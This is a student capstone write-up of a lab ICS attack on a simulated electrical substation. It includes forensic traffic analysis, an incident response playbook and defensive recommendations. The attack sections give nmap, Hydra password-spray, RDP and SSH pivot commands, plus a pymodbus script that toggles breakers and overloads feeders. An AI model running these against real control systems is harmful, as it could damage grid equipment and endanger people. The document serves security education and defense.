

# ICS Attack Simulation, Forensic Analysis, and Incident Response Playbook for an Electrical Distribution Substation

Trevor Ritchie  
CSCI 632: Data Communications and Networking  
The Citadel Military College of SC  
2025-12-09  

---

## Summary

Multi-stage ICS cyberattack simulation against 69kV/13.8kV distribution substation: IT-to-OT pivot culminating in unauthorized Modbus PLC manipulation. Includes PCAP forensic analysis, NIST incident response playbook, attack scripts, and real-world impact assessment for critical infrastructure security education.

**Achievements:**
- Virtualized ICS network with IT and OT zones 
	- Learned about the Purdue Model for ICS Security
- Multi-stage attack demonstration: IT compromise -> lateral movement -> OT impact
- Forensic evidence collection and analysis (PCAPs, logs, screen recordings)
- Incident response playbook following NIST framework
- Real-world impact analysis demonstrating potential consequences

[Full Technical Process Notes](Technical_Process_Notes.md)  
[Acknowledgement of Limitations and Unrealistic Elements](Limitations_and_Unrealistic_Elements.md)

---

## Table of Contents

- [Network Architecture](#network-architecture)
- [Attack Scenario](#attack-scenario)
  - [Phase 1: Initial Compromise](#phase-1-initial-compromise-it-zone)
  - [Phase 2: Lateral Movement](#phase-2-lateral-movement-it-to-ot-pivot)
  - [Phase 3: OT Impact](#phase-3-ot-impact-modbus-attack)
- [Forensic Analysis](#forensic-analysis)
- [Incident Response Playbook](#incident-response-playbook)
- [Key Findings](#key-findings)
- [Evidence Artifacts](#evidence-artifacts)
- [Lab Limitations](#lab-limitations)
- [References](#references)

---

## Network Architecture

The lab implements a (very) simplified Purdue Model architecture with distinct IT and OT zones separated by a pfSense firewall.

### GNS3 Network Topology



### VMs 


| Component            | Role                         | IP Address                  | OS/Platform              |
| -------------------- | ---------------------------- | --------------------------- | ------------------------ |
| **attacker-kali**    | Adversary machine            | 192.168.10.10               | Kali Linux               |
| **target-windows**   | IT workstation (pivot point) | 192.168.10.20               | Windows 10               |
| **firewall-pfsense** | Network segmentation         | 192.168.10.1 / 192.168.20.1 | pfSense                  |
| **hmi-ubuntu**       | Human-Machine Interface      | 192.168.20.10               | Ubuntu Desktop           |
| **plc-server**       | Distribution substation PLC  | 192.168.20.20               | Ubuntu Server (pymodbus) |

---

## Simulated Physical Infrastructure: 69kV/13.8kV Distribution Substation

The PLC simulates a distribution substation controller managing:
- **10 distribution feeder circuit breakers** (coils 0-9)
- **5 capacitor bank switches** (coils 10-14)
- **Transformer cooling pump controls** (coils 15-19)
- **Disconnect switches** (coils 20-29)
- **Emergency main breaker** (coil 50 - critical safety system)

### Modbus/TCP Architecture

The project uses the Modbus/TCP protocol for communication between the HMI and PLC over port 502:

**Server (PLC):** [`plc_modbus_server.py`](modbus-scripts/plc_modbus_server.py)
- Runs on plc-server (192.168.20.20:502)
- Implements a Modbus TCP server using pymodbus library
- Maintains coil states representing substation equipment
- Responds to read/write requests from HMI clients

**Client (HMI - Legitimate Operations):** [`legitimate_hmi_operations.py`](modbus-scripts/legitimate_hmi_operations.py)
- Runs on hmi-ubuntu (192.168.20.10)
- Simulates normal operator interactions with the PLC
- Performs read operations (monitoring voltage, current, coil states)
- Performs controlled write operations with 4-second delays
- Establishes baseline traffic patterns for forensic comparison

**Client (HMI - Attack Script):** [`coil_manipulation_attack.py`](modbus-scripts/coil_manipulation_attack.py)
- Executed from compromised hmi-ubuntu after lateral movement
- Performs rapid unauthorized write operations (0.2-0.3s intervals)
- Targets safety-critical coils without verification reads
- Implements four-phase attack pattern designed to disrupt substation operations

**Protocol Details:**
- Modbus/TCP lacks native authentication or encryption
- All communication occurs in plaintext over TCP port 502
- Write operations use Function Code 5 (single coil) or 15 (multiple coils)
- Read operations use Function Code 1 (coils) or 3/4 (registers)

**Detailed setup documentation:** [Technical Process Notes](Technical_Process_Notes.md#setting-up-modbustcp-simulation)

---

## Attack Scenario

The attack follows a three-phase progression through the network, demonstrating how an adversary can pivot from IT systems to compromise critical OT infrastructure.

### Phase 1: Initial Compromise (IT Zone)

**Video:** [Phase 1 - RDP Attack](screen-recordings/phase1_rdp_attack.mp4)

**Objective:** Gain foothold on IT network workstation

**Attack Path:** Kali Linux -> Windows 10 (RDP)

**Techniques:**
1. **Reconnaissance:** Nmap scan identifying open RDP port (TCP 3389)
2. **Credential Attack:** Hydra password spray attack
3. **Initial Access:** Remote Desktop Protocol (RDP) connection established

**Key Tools:**
```bash
# Network reconnaissance
nmap -sV -p 3389 192.168.10.20

# Credential attack
hydra -l admin -P passwords.txt rdp://192.168.10.20

# RDP connection
rdesktop 192.168.10.20 -u employee -p target-windows 
```

**Evidence:**
- PCAP: [`phase1_rdp_attack.pcapng`](pcaps/phase1_rdp_attack.pcapng)
- Windows Event ID 4624: Successful RDP logon

---

### Phase 2: Lateral Movement (IT-to-OT Pivot)

**Video:** [Phase 2 - SSH Pivot](screen-recordings/phase2_ssh_pivot.mp4)

**Objective:** Traverse firewall and compromise OT zone HMI

**Attack Path:** Windows 10 -> HMI (SSH)

**Techniques:**
1. **Discovery:** PowerShell command history reveals previous SSH connections to OT zone
2. **Firewall Traversal:** Exploit misconfigured pfSense rule permitting SSH from IT to OT
3. **Lateral Movement:** SSH connection to `operator2@192.168.20.10`

**Key Commands:**
```powershell
# Look through command history to find ssh
Get-Content (Get-PSReadlineOption).HistorySavePath

# From compromised Windows workstation
ssh operator2@192.168.20.10
```

**Evidence:**
- PCAP: [`phase2_ssh_pivot.pcapng`](pcaps/phase2_ssh_pivot.pcapng)
- pfSense firewall logs: SSH connection from 192.168.10.20 → 192.168.20.10
- `/var/log/auth.log`: SSH authentication from IT zone IP

**Critical Vulnerability:** Direct SSH access from IT to OT violates Purdue Model Level 3.5 (IDMZ) requirements. Production environments would require multi-factor authentication through hardened jump hosts.

---

### Phase 3: OT Impact (Modbus Attack)

**Video:** [Phase 3 - Modbus Attack](screen-recordings/phase3_modbus_attack.mp4)

**Objective:** Disrupt distribution substation operations via unauthorized PLC commands

**Attack Path:** HMI -> PLC (Modbus/TCP)

**Techniques:**
1. **Malicious Script Deployment:** `coil_manipulation_attack.py` written and executed from compromised HMI
2. **Four-Phase Attack:**
   - **Phase 1:** Emergency breaker rapid toggling (coil 50) - 10 iterations, 0.3s intervals
   - **Phase 2:** Simultaneous feeder energization (coils 0-9) - overload condition
   - **Phase 3:** Capacitor bank disruption (coils 10-14) - power quality attack
   - **Phase 4:** Disconnect switch cycling (coils 20-29) - equipment damage

**Full Attack Script:** [`coil_manipulation_attack.py`](modbus-scripts/coil_manipulation_attack.py)

**Attack Script Excerpt:**
```python
# Four-phase PLC attack executed during Phase 3 (OT Impact):

# ATTACK PHASE 1: Emergency Main Breaker Rapid Toggling
for i in range(10):
    client.write_coil(address=50, value=True, slave=1)   # Trip breaker
    time.sleep(0.3)
    client.write_coil(address=50, value=False, slave=1)  # Reset breaker
    time.sleep(0.3)

# ATTACK PHASE 2: Simultaneous Feeder Energization (Overload Attack)
client.write_coils(address=0, values=[True]*10, slave=1)

# ATTACK PHASE 3: Capacitor Bank Disruption
client.write_coils(address=10, values=[False]*5, slave=1)

# ATTACK PHASE 4: Rapid Disconnect Switch Manipulation
for i in range(5):
    client.write_coils(address=20, values=[True]*10, slave=1)
    time.sleep(0.2)
    client.write_coils(address=20, values=[False]*10, slave=1)
    time.sleep(0.2)
```

**Evidence:**
- PCAP: [`phase3_modbus_attack.pcapng`](pcaps/phase3_modbus_attack.pcapng)
- Baseline comparison: [`normal_modbus_traffic.pcapng`](pcaps/normal_modbus_traffic.pcapng)
- Malicious script: [`coil_manipulation_attack.py`](modbus-scripts/coil_manipulation_attack.py)

---

## Forensic Analysis

Comprehensive Wireshark analysis comparing baseline legitimate HMI operations against the malicious Modbus attack reveals definitive indicators of unauthorized automated coil manipulation.

### Traffic Comparison - Baseline vs Attack

**Baseline Traffic Characteristics** ([Full Analysis](forensic-analysis/Baseline_Analysis.md))
- **Total Packets:** 25 packets
- **Total Bytes:** 752 bytes (HMI → PLC)
- **Function Codes:** Predominantly FC1 (Read Coils) and FC4 (Read Input Registers)
- **Write Operations:** 2 total (FC5 - Write Single Coil only)
- **Write Timing:** 4-second delays between operations
- **Operation Pattern:** Read-before-write with post-write verification
- **Coil Addresses:** 0-4 (operational feeders only)
- **Traffic Pattern:** Steady, predictable polling with minimal writes
- **FC15 Usage:** 0 instances (Write Multiple Coils never used)

**Attack Traffic Characteristics** ([Full Analysis](forensic-analysis/Attack_Analysis.md))
- **Total Packets:** 288 packets (11.5x increase)
- **Function Codes:** Predominantly FC5 and FC15 (Write operations)
- **Write Operations:** 20+ write operations across safety-critical systems
- **Write Timing:** 0.2-0.3 second delays (13-20x faster than baseline)
- **Operation Pattern:** Write-only, no read-before-write verification
- **Coil Addresses:** 0-29, 50 (including emergency breaker and disconnect switches)
- **Traffic Pattern:** Burst of rapid consecutive writes
- **FC15 Usage:** Multiple instances (mass coil writes - CRITICAL SIGNATURE)

### Forensic Evidence Comparison Table

| Indicator | Baseline (Normal) | Attack (Malicious) | Analysis |
|-----------|-------------------|--------------------| ---------|
| **Total Packets** | 25 packets | 288 packets | **11.5x increase** - burst activity |
| **Write Timing** | 4-second delays | 0.2-0.3 second delays | **13-20x faster** - scripted automation |
| **Operation Pattern** | Read-before-write | Write-only (blind injection) | No verification - reckless behavior |
| **Function Code 5** | 2 operations | Numerous operations | Emergency breaker rapid toggling |
| **Function Code 15** | 0 instances | Multiple instances | **CRITICAL SIGNATURE** - mass writes |
| **Coil Address Range** | 0-4 (operational) | 0-29, 50 (safety systems) | Expanded to critical infrastructure |
| **Read Operations** | Continuous monitoring | Minimal/none | No process awareness |
| **Traffic Pattern** | Steady polling | Burst of rapid writes | Fundamentally incompatible behavior |

### Critical Attack Indicators

**1. Timing Anomaly (Definitive Automation Signature)**
- Baseline: 4-second delays (human-paced operator actions)
- Attack: 0.2-0.3 second delays (13-20x faster)
- **Assessment:** Physically impossible for human execution - automated script

**2. Function Code Distribution Shift**
- Baseline: 90% read operations (monitoring), 10% controlled writes
- Attack: 100% write operations (no monitoring)
- **Assessment:** Attacker focused solely on manipulation, not process awareness

**3. Write Multiple Coils (FC15) - Zero-Day Capability**
- Baseline: 0 instances (never used in normal operations)
- Attack: Multiple instances (mass writes to 10+ coils simultaneously)
- **Assessment:** NEW capability indicating attack - not legitimate HMI behavior

**4. Absence of Read-Before-Write Pattern**
- Baseline: Every write preceded by read operations (verification)
- Attack: Blind writes without state checking
- **Assessment:** Reckless control actions - no operational safety procedures

**5. Safety System Access**
- Baseline: Coils 0-4 only (operational feeders)
- Attack: Coils 50 (emergency breaker), 20-29 (disconnect switches)
- **Assessment:** Access to addresses never touched during normal operations

**6. Four-Phase Attack Signature**
- Emergency breaker rapid toggling (10 iterations, 0.3s intervals)
- Simultaneous feeder energization (all 10 feeders forced closed)
- Capacitor bank disruption (all 5 banks forced offline)
- Disconnect switch rapid cycling (5 iterations, 0.2s intervals)
- **Assessment:** Matches documented ICS substation disruption attack pattern

### Attack Signature Summary

**High-Confidence Malicious Activity:**
- **Timing:** 0.2-0.3s intervals (scripted) vs. 4s baseline (human-paced)
- **Pattern:** Write-only commands without verification reads
- **Scope:** 30+ write operations across safety-critical coils (0-29, 50)
- **Behavior:** Four-phase signature matching documented ICS attack pattern
- **Capability:** Function Code 15 usage (mass writes) - never observed in baseline

**Forensic Conclusion:** Traffic patterns are irrefutably incompatible with legitimate HMI operations. Evidence provides definitive proof of unauthorized automated Modbus coil manipulation.

### Detailed Analysis Documents

**Complete forensic evidence with annotated Wireshark screenshots:**
- [Baseline Modbus Traffic Analysis](older%20plans/forensic-analysis/Baseline_Analysis.md) - 9 evidence screenshots documenting normal operations
- [Phase 3 Modbus Attack Analysis](forensic-analysis/Attack_Analysis.md) - 12 evidence screenshots documenting attack indicators

---

## Incident Response Playbook

A comprehensive incident response playbook was developed following the NIST Cybersecurity Framework, tailored for unauthorized Modbus coil manipulation attacks.

**Full Playbook:** [Incident Response Playbook: Unauthorized Modbus Coil Manipulation](Modbus_Coil_Manipulation_Playbook.md)

### Playbook Structure

1. **Preparation**
   - Asset inventory and network topology documentation
   - Baseline traffic capture and analysis
   - Detection capability setup (Wireshark, system logs)

2. **Detection & Analysis**
   - Network traffic pattern analysis (baseline vs. attack)
   - Host-based evidence collection (authentication logs, malicious scripts)
   - Firewall log correlation (IT-to-OT pivot detection)
   - PLC state verification

3. **Containment**
   - Isolation of compromised HMI
   - Firewall rule updates blocking unauthorized IT-to-OT access
   - PLC monitoring for additional unauthorized commands

4. **Eradication & Recovery**
   - Removal of malicious scripts
   - Credential reset
   - PLC state restoration to baseline
   - VM snapshot rollback (lab environment)

5. **Lessons Learned**
   - Network segmentation gaps identified
   - Recommendations for defense-in-depth improvements

### Key Detection Indicators

| Indicator             | Baseline (Normal)       | Attack (Malicious)           |
| --------------------- | ----------------------- | ---------------------------- |
| **Write Timing**      | 4-second delays         | 0.2-0.3 second delays        |
| **Operation Pattern** | Read-before-write       | Write-only (blind injection) |
| **Function Codes**    | FC 5 (2 operations)     | FC 15 (20+ operations)       |
| **Coil Addresses**    | 0-4 (operational range) | 0-29, 50 (safety systems)    |
| **Traffic Volume**    | Predictable polling     | Burst of rapid writes        |

---

## Key Findings

### Attack Impact Analysis

#### Real-World Consequences (If Production System)

**Phase 1: Emergency Breaker Toggling**
- Grid instability from rapid voltage/frequency transients
- Circuit breaker wear (10 cycles out of 10,000-20,000 lifetime)
- Cascade failure risk to adjacent substations

**Phase 2: Simultaneous Feeder Energization**
- **150% transformer overload** (30 MW vs. 20 MVA capacity)
- Potential transformer failure ($500K-$2M replacement cost)
- Regional blackout affecting thousands of customers
- 4-12 hour restoration time

**Phase 3: Capacitor Bank Disruption**
- Power factor degradation (0.95 → 0.7-0.8)
- 20-40% increase in demand charges
- Voltage instability triggering protective relays

**Phase 4: Disconnect Switch Cycling**
- Arc flash hazard (10,000-35,000°F) - fire/injury risk
- Equipment destruction ($50K-$100K per switch)
- Safety system compromise preventing safe maintenance

**Historical Precedent:** Similar overload conditions contributed to the 2003 Northeast Blackout (50 million people affected across 8 U.S. states and Canada).

**Full Impact Analysis:** [Technical Process Notes - Real-World Impact](Technical_Process_Notes.md#real-world-impact)

---

## Evidence Artifacts

### Packet Captures

All packet captures stored in [`pcaps/`](pcaps/) directory:

| File | Description | Size |
|------|-------------|------|
| `normal_modbus_traffic.pcapng` | Baseline legitimate HMI operations | - |
| `phase1_rdp_attack.pcapng` | RDP credential attack and connection | - |
| `phase2_ssh_pivot.pcapng` | SSH lateral movement from IT to OT | - |
| `phase3_modbus_attack.pcapng` | Malicious Modbus coil manipulation | - |

### Forensic Analysis Reports

Detailed Wireshark analysis documents with annotated screenshots:

| File | Description | Evidence Count |
|------|-------------|----------------|
| [`baseline_analysis.md`](older%20plans/forensic-analysis/Baseline_Analysis.md) | Normal Modbus traffic baseline | 9 screenshots |
| [`attack_analysis.md`](forensic-analysis/Attack_Analysis.md) | Phase 3 attack forensic evidence | 12 screenshots |

**Key Forensic Findings:**
- Timing anomaly: 13-20x faster than baseline (0.2-0.3s vs 4s intervals)
- Function code shift: Write-heavy attack vs read-heavy baseline
- FC15 (Write Multiple Coils) usage: Present in attack, absent in baseline
- No read-before-write verification pattern during attack
- Access to safety-critical coil addresses not touched in normal operations

### Video Recordings

All screen recordings stored in [`screen-recordings/`](screen-recordings/) directory:

| File | Description | Duration |
|------|-------------|----------|
| `capturing_normal_modbus_traffic.mp4` | Baseline traffic capture process | - |
| `phase1_rdp_attack.mp4` | IT zone initial compromise | - |
| `phase2_ssh_pivot.mp4` | IT-to-OT lateral movement | - |
| `phase3_modbus_attack.mp4` | OT impact and PLC manipulation | - |

### Scripts and Logs

**Modbus Scripts:** (stored in [`modbus-scripts/`](modbus-scripts/) directory)
- [`plc_modbus_server.py`](modbus-scripts/plc_modbus_server.py) - PLC Modbus/TCP server implementation
- [`legitimate_hmi_operations.py`](modbus-scripts/legitimate_hmi_operations.py) - Baseline HMI operations script
- [`coil_manipulation_attack.py`](modbus-scripts/coil_manipulation_attack.py) - Malicious attack script

**System Logs:**
- Authentication logs (auth.log from hmi-ubuntu)
- Firewall logs (pfSense connection logs)
- PLC server logs

**Timeline Reconstruction:**
- Correlated multi-source timeline of attack progression

---

## Lab Limitations

This project was conducted in a virtualized laboratory environment with intentional simplifications for educational purposes. **Production critical infrastructure environments differ significantly** in the following ways:

### Key Limitations

| Category | Lab Configuration | Production Reality |
|----------|-------------------|-------------------|
| **PLC** | Python pymodbus simulation | Physical industrial controllers (Siemens, Allen-Bradley) |
| **Network Segmentation** | Direct SSH from IT to OT | IDMZ with jump hosts, MFA, session recording |
| **Authentication** | Password-based SSH | Certificate-based, MFA, PAM vaults |
| **Detection** | Manual PCAP analysis | Real-time ICS IDS (Nozomi, Claroty, Dragos) |
| **Endpoint Security** | None | EDR, application whitelisting, malware prevention |
| **Safety Systems** | Not implemented | Dedicated SIS (Triconex, GuardLogix) per IEC 61511 |
| **Physical Process** | No operational impact | Real equipment damage, safety hazards |

**Comprehensive Limitations Documentation:** [Lab Limitations and Unrealistic Elements](Limitations_and_Unrealistic_Elements.md)

### Critical Differences

1. **No Industrial Hardware:** Software simulation vs. physical PLCs with vendor security features
2. **Purdue Model Violation:** Direct IT-to-OT access vs. multi-layered IDMZ architecture
3. **No Safety Systems:** Single PLC vs. separate Safety Instrumented Systems (SIS)
4. **Instant Recovery:** VM snapshots vs. validated backup procedures and potential hardware replacement
5. **No Organizational Context:** Single operator vs. cross-functional coordination (ops, safety, legal)

---

## Technical Report Sections

### Detailed Documentation

- **[Technical Process Notes](Technical_Process_Notes.md)** - Verbose implementation details, setup procedures, attack execution, and forensic analysis
- **[Incident Response Playbook](Modbus_Coil_Manipulation_Playbook.md)** - NIST-aligned playbook for detecting and responding to unauthorized Modbus attacks
- **[Lab Limitations](Limitations_and_Unrealistic_Elements.md)** - Comprehensive analysis of how production environments differ from this lab

---

## References

### Standards and Frameworks

- **[Purdue Model for Industrial Control Systems]([https://www.zscaler.com/resources/security-terms-glossary/what-is-purdue-model](https://www.energy.gov/sites/default/files/2022-10/Infra_Topic_Paper_4-14_FINAL.pdf)):** A foundational framework for ICS network segmentation.
- **[IEC 62443-3-2](https://webstore.iec.ch/en/publication/30727):** Security for industrial automation and control systems - Security risk assessment and system design
- **[NIST SP 800-82 Rev. 3](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-82r3.pdf):** Guide to Operational Technology (OT) Security
- **[NERC CIP-005-7](https://www.nerc.com/globalassets/standards/reliability-standards/cip/cip-005-7.pdf):** Electronic Security Perimeter(s)
- **[NERC CIP-007-6](https://www.nerc.com/standards/reliability-standards/cip/cip-007-6):** Systems Security Management
- **[MITRE ATT&CK for ICS](https://attack.mitre.org/matrices/ics/):** A knowledge base of adversary tactics and techniques for industrial control systems.
- **[NIST Cybersecurity Framework](https://www.nist.gov/cyberframework):** A framework for improving critical infrastructure cybersecurity.

### Real-World ICS Incidents Referenced

- **[Stuxnet (2010)](https://www.britannica.com/technology/Stuxnet):** Iranian uranium enrichment facility - Physical destruction via PLC manipulation
- **[CRASHOVERRIDE/Industroyer (2016)](https://en.wikipedia.org/wiki/Industroyer):** Ukraine power grid - Custom ICS protocol malware
- **[TRITON/TRISIS (2017)](https://en.wikipedia.org/wiki/Triton_(malware)):** Saudi petrochemical plant - First malware targeting safety systems
- **[Colonial Pipeline (2021)](https://en.wikipedia.org/wiki/Colonial_Pipeline_ransomware_attack):** U.S. fuel pipeline - Operational disruption from IT-OT pivot

### Tools and Technologies

- **Virtualization:** [GNS3](https://docs.gns3.com/docs/), VMware Workstation Pro
- **Operating Systems:** Kali Linux, Windows 10, Ubuntu Server/Desktop, pfSense
- **ICS Protocols:** [Modbus/TCP (pymodbus library)](https://pymodbus.readthedocs.io/en/latest/)
- **Analysis Tools:** Wireshark, Nmap, Hydra, SSH

---

## Conclusion

This capstone project successfully demonstrates the critical security challenges facing industrial control systems and the potential consequences of inadequate OT cybersecurity. The multi-stage attack showcases how adversaries can leverage IT network access to compromise operational technology, while the incident response playbook provides a structured approach to detecting and responding to such threats.

**Key Takeaways:**
1. **Network Segmentation is Critical:** Direct IT-to-OT access creates unacceptable risk
2. **Modbus Lacks Security:** No native authentication - requires defense-in-depth
3. **Detection Requires Baseline Understanding:** Anomaly detection depends on knowing normal behavior
4. **OT Incidents Require Cross-Functional Response:** Coordination between cyber, operations, and safety teams is essential
5. **Physical Consequences are Real:** Cyberattacks on ICS can cause equipment damage, safety hazards, and service disruption

### Recommendations for Production Environments

1. Implement Purdue Model Level 3.5 (IDMZ) with unidirectional gateways
2. Deploy ICS-specific intrusion detection systems (Dragos, Nozomi, Claroty)
3. Enforce multi-factor authentication for all OT access
4. Implement application whitelisting on HMI and engineering workstations
5. Establish baseline traffic profiles and anomaly detection
6. Conduct regular incident response exercises with operations teams
7. Maintain offline backups and validated restoration procedures
